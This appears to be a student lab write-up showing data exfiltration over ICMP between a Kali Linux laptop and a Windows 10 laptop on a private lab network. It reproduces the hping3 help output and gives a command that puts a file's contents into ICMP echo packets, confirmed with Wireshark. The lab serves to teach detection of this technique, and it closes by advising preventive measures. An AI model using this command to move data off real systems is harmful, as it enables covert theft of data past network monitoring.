


# Data exfiltration

1. Goal
    * Carry out data from one computer to another computer using ICMP.

2. Used hardware
    * 1 laptop with Kali Linux
    * 1 laptop with Windows 10

3. Used software
    * Kali Linux (2020.1)
    * Wireshark 3.2.3

4. Setup
    
    

5. Getting started

    1. Data exfiltration occurs when malware and/or a malicious actor carries out an unauthorized data transfer from a computer.

    We will use hping3 as an example.
    
    [More information about hping3](https://tools.kali.org/information-gathering/hping3).

    2. Some additional information:
        - IP address Kali: 192.168.1.1/24
        - IP address Windows 10: 192.168.1.2/24
        - Name of the file that will be transferred: WLAN_Commands

    ```
    kali@KALI1:~$ cat ./Desktop/WLAN_Commands 
    Look for the correct WLAN adapter
    sudo airmon-ng

    Kill the nework managers
    sudo airmon-ng check kill

    Put the adapter in monitor mode
    sudo airmon-ng start wlan1

    Start Wireshark
    sudo wireshark

    Select wlan1mon interface!
    kali@KALI1:~$ 
    ```
    3. Check the possibilities of hping3.

    ```
    kali@KALI1:~$ sudo hping3 -h
    usage: hping3 host [options]
    -h  --help      show this help
    -v  --version   show version
    -c  --count     packet count
    -i  --interval  wait (uX for X microseconds, for example -i u1000)
        --fast      alias for -i u10000 (10 packets for second)
        --faster    alias for -i u1000 (100 packets for second)
        --flood      sent packets as fast as possible. Don't show replies.
    -n  --numeric   numeric output
    -q  --quiet     quiet
    -I  --interface interface name (otherwise default routing interface)
    -V  --verbose   verbose mode
    -D  --debug     debugging info
    -z  --bind      bind ctrl+z to ttl           (default to dst port)
    -Z  --unbind    unbind ctrl+z
        --beep      beep for every matching packet received
    Mode
    default mode     TCP
    -0  --rawip      RAW IP mode
    -1  --icmp       ICMP mode
    -2  --udp        UDP mode
    -8  --scan       SCAN mode.
                    Example: hping --scan 1-30,70-90 -S www.target.host
    -9  --listen     listen mode
    IP
    -a  --spoof      spoof source address
    --rand-dest      random destionation address mode. see the man.
    --rand-source    random source address mode. see the man.
    -t  --ttl        ttl (default 64)
    -N  --id         id (default random)
    -W  --winid      use win* id byte ordering
    -r  --rel        relativize id field          (to estimate host traffic)
    -f  --frag       split packets in more frag.  (may pass weak acl)
    -x  --morefrag   set more fragments flag
    -y  --dontfrag   set don't fragment flag
    -g  --fragoff    set the fragment offset
    -m  --mtu        set virtual mtu, implies --frag if packet size > mtu
    -o  --tos        type of service (default 0x00), try --tos help
    -G  --rroute     includes RECORD_ROUTE option and display the route buffer
    --lsrr           loose source routing and record route
    --ssrr           strict source routing and record route
    -H  --ipproto    set the IP protocol field, only in RAW IP mode
    ICMP
    -C  --icmptype   icmp type (default echo request)
    -K  --icmpcode   icmp code (default 0)
        --force-icmp send all icmp types (default send only supported types)
        --icmp-gw    set gateway address for ICMP redirect (default 0.0.0.0)
        --icmp-ts    Alias for --icmp --icmptype 13 (ICMP timestamp)
        --icmp-addr  Alias for --icmp --icmptype 17 (ICMP address subnet mask)
        --icmp-help  display help for others icmp options
    UDP/TCP
    -s  --baseport   base source port             (default random)
    -p  --destport   [+][+]<port> destination port(default 0) ctrl+z inc/dec
    -k  --keep       keep still source port
    -w  --win        winsize (default 64)
    -O  --tcpoff     set fake tcp data offset     (instead of tcphdrlen / 4)
    -Q  --seqnum     shows only tcp sequence number
    -b  --badcksum   (try to) send packets with a bad IP checksum
                    many systems will fix the IP checksum sending the packet
                    so you'll get bad UDP/TCP checksum instead.
    -M  --setseq     set TCP sequence number
    -L  --setack     set TCP ack
    -F  --fin        set FIN flag
    -S  --syn        set SYN flag
    -R  --rst        set RST flag
    -P  --push       set PUSH flag
    -A  --ack        set ACK flag
    -U  --urg        set URG flag
    -X  --xmas       set X unused flag (0x40)
    -Y  --ymas       set Y unused flag (0x80)
    --tcpexitcode    use last tcp->th_flags as exit code
    --tcp-mss        enable the TCP MSS option with the given value
    --tcp-timestamp  enable the TCP timestamp option to guess the HZ/uptime
    Common
    -d  --data       data size                    (default is 0)
    -E  --file       data from file
    -e  --sign       add 'signature'
    -j  --dump       dump packets in hex
    -J  --print      dump printable characters
    -B  --safe       enable 'safe' protocol
    -u  --end        tell you when --file reached EOF and prevent rewind
    -T  --traceroute traceroute mode              (implies --bind and --ttl 1)
    --tr-stop        Exit when receive the first not ICMP in traceroute mode
    --tr-keep-ttl    Keep the source TTL fixed, useful to monitor just one hop
    --tr-no-rtt       Don't calculate/show RTT information in traceroute mode
    ARS packet description (new, unstable)
    --apd-send       Send the packet described with APD (see docs/APD.txt)
    kali@KALI1:~$
    ``` 

    4. Start the capture at the Windows 10 laptop. (Wireshark)
    
    5. Start the communication between the two devices.

    ```
    kali@KALI1:~$ sudo hping3 -E ./Desktop/WLAN_Commands -1 -u -d 250 -c 1 192.168.1.2
    HPING 192.168.1.2 (eth0 192.168.1.2): icmp mode set, 28 headers + 250 data bytes
    [main] memlockall(): Operation not supported
    Warning: can't disable memory paging!
    EOF reached, wait some second than press ctrl+c
    len=278 ip=192.168.1.2 ttl=128 id=31449 icmp_seq=0 rtt=7.6 ms

    --- 192.168.1.2 hping statistic ---
    1 packets transmitted, 1 packets received, 0% packet loss
    round-trip min/avg/max = 7.6/7.6/7.6 ms
    kali@KALI1:~$
    ``` 

    6. Check Wireshark

    

6. Conclusion

    *  Take preventive and detective measures against data exfiltration.


